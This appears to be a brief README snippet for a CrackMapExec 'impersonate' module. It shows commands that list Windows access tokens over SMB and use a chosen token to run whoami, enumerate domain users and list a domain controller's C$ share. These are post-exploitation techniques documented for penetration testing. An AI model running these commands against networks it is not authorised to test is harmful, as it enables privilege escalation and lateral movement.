 # Module usage


## List available tokens
cme smb <ip> -u USERNAME -p PASSWOD -M impersonate
  
## Impersonate user token
cme smb <ip> -u USERNAME -p PASSWORD -M impersonate -o TOKEN=<TOKEN_ID> COMMAND="cmd.exe /c whoami"
cme smb <ip> -u USERNAME -p PASSWORD -M impersonate -o TOKEN=<TOKEN_ID> COMMAND="net user /domain"
cme smb <ip> -u USERNAME -p PASSWORD -M impersonate -o TOKEN=<TOKEN_ID> COMMAND="cmd.exe /c dir \\\\DC.whiteflag.local\\C"
